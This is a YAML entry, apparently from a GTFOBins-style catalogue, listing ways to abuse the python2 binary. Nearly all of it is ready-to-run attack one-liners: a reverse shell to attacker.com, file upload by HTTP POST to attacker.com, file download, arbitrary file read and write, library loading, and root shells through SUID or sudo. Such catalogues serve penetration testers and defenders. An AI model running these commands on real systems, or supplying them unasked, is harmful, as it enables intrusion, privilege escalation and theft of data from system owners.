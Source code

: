 ```yaml
---
functions:
  execute-interactive:
    - code: python2 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python2 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python2 -c 'import urllib as u,urllib2 as u2,os.environ as e; u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python2 -m SimpleHTTPServer $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python2 -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: python2 -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python2 -c 'open("file_to_read").read()'
  load-library:
    - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
    - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
    - code: sudo python2 -c 'import os; os.system("/bin/sh")'
---
```

